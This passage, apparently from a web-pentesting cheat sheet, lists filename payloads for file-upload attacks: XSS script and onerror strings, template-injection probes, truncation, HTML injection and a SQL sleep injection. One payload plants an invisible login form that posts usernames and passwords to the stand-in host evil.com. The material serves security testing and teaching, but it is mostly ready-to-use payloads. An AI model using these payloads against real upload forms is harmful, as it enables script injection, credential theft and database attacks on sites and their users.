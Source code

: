 ```html
<script>alert(1)</script>.jpg
"><script>alert(1)</script>.jpg
```

### [SSTI](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#ssti)

```html
{{2*3}}.jpg
{2*3}.jpg
2*3.jpg
2*3}}.jpg
2*3}.jpg
${2*3}.jpg
"{{2*3}}.jpg
```

### [Truncation](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#truncation)

```bash
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxtest.jpg
test.jpgxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

### [HTML Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#html-injection)

Try to upload the file which includes **HTML tags** in the filename. It may affect the web page.

```html
<h1>test.jpg

<!-- `&sol;`: HTML entiry for '/' -->
"><iframe src="http:&sol;&sol;10.0.0.1">.jpg

"><img src=x onerror=alert(document.domain).jpg

"><form action="//evil.com" method="GET"><input type="text" name="username" style="opacity:0;"><input type="password" name="password" style="opacity:0;"><input type="submit" name="submit" value="submit"><!--.jpg
```

### [SQL Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#sql-injection)

Try to upload the file which includes **SQL command** in the filename. It may execute **SQL Injection** when uploading or other situations.

```txt
--sleep(10).jpg
```

  
